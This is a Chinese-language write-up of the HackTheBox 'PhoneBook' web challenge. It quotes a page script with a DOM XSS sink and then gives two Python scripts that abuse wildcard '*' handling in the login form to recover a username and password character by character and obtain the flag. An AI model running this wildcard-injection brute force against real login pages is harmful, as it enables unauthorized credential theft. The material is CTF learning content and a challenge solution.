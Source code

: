 ```yaml
---
title: HackTheBox PhoneBook WriteUP
date: 2023-08-22 09:15:09
tags: 
- HackTheBox
- Web
---
```


## 题目

![Who is lucky enough to be included in the phonebook?](image-1.png)

## 思路

题目给出的网页是这样

![index](image-2.png)

看到HTML中有这样一段代码，还以为这题是个DOM XSS(事实上也确实有XSS)

``` HTML
<script>
  const queryString = window.location.search;
if (queryString) {
  const urlParams = new URLSearchParams(queryString);
  const message = urlParams.get('message');
  if (message) {
    document.getElementById("message").innerHTML = message;
    document.getElementById("message").style.visibility = "visible";
    }
  }
</script>
```

但是XSS是需要人触发的，题目中并没有给出任何BOT的信息。

所以最终的解法要落在登录功能上。

## 解题

登录功能可以通过通配符`*`进入，登录成功之后是一个只有搜索框的页面（这里忘记截图了）。搜索功能可以找到若干账户的信息。

![搜索](image-3.png)

题目的提示是：`Who is lucky enough to be included in the phonebook?`，所以我们应该想办法获取能登录的账号密码。

登录功能可以识别通配符，所以直接写脚本遍历就好了。

> userbrute.py

``` python
import requests

url = "http://157.245.43.189:30403/login"
value = ''
flag = True

while(flag):
    flag = False
    for i in range(33,126,1):
        if(chr(i)=='*'):
            continue
        uname = value + chr(i) + '*'
        data = {"username": uname, "password": "*"}
        resp = requests.post(url, data=data, allow_redirects=False)
        print(uname+'\t'+str(resp.status_code))
        if(resp.status_code != 302):
            continue
        if(resp.headers['Location'] == '/'):
            value = value+chr(i)
            print(value)
            flag = True
            break
```

> passbrute.py

``` python
import requests

url = "http://157.245.43.189:30403/login"
value = ''
flag = True

while(flag):
    flag = False
    for i in range(33,126,1):
        if(chr(i)=='*'):
            continue
        password = value + chr(i) + '*'
        data = {"username": "REESE", "password": password}
        resp = requests.post(url, data=data, allow_redirects=False)
        # print(password+'\t'+str(resp.status_code))
        if(resp.status_code != 302):
            continue
        if(resp.headers['Location'] == '/'):
            value = value+chr(i)
            print(value)
            flag = True
            break
```

取得flag：

![flag](image-4.png)

## 后记

~~真正的解题思路是看了别人的writeup才明白的，通配符这是真没想到……~~